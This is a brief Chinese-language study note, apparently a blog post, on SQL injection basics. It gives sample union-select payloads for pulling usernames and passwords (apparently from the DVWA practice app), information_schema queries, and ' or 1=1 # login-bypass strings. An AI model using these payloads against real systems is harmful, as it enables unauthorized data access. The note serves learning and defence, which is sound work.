 ```yaml
---
title: SqlInjection
date: 2020-01-05 17:27:58
categories:
- SQL
tags:
- SQL
---
```


## Sql注入的基本类型  

> - 数字型与字符类型  
> - 基于错误，基于响应时间的盲注，基于响应的注入

### 字符型
常基于以下SQL:  
`SELECT * FROM student_info WHERE id = '$id' and name = '$name';`

### 数字型
常基于以下SQL:  
`SELECT * FROM student_info WHERE id = $id;`

## 用途

### 猜解数据库
1.报错信息



2.联合查询 union

`1' union select user,password from users#` 构造成 

`SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`;`

`select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;`    
从 information_schema 数据库里查询 

可查询的数据库信息有：  
- version()  查询当前数据库版本  
- @@version_compile_os 获取当前操作系统
- database() 当前数据库
- user() 用户


### 绕过验证

- 常用方式

1.注释符与永真判别式 

注释符用于注释掉后续内容；  

如：（字符型）   
`SELECT * FROM student_info WHERE id = '$id' and name = '$name';`

构造  ` 1' or 1=1 #` 成为 `SELECT * FROM student_info WHERE id = '1' or 1=1 # and name = '$name';`

如：（数字型）  
`SELECT * FROM student_info WHERE id = $id;`

构造 `1 or 1=1 #` 成为 `SELECT * FROM student_info WHERE id = 1 or 1=1 #;`


## 识别Sql注入  
### 判断注入点  
最简单的方式是  
**1'**  单引号判别，出错则说明有注入点

1.永真和永假表达式 or 1=1-- 
2.报错信息  
3.特定数据库的连接符  SQL SERVER ---


## 常用其它
sql注入常用技术有段还包括：

- 采用非主流通道技术
- 避开输入过滤技术
- 使用特殊的字符
- 强制产生错误
- 使用条件语句
- 利用存储过程
- 推断技术
........

- 宽字节注入
- urldecode二次注入
- sql注入防御

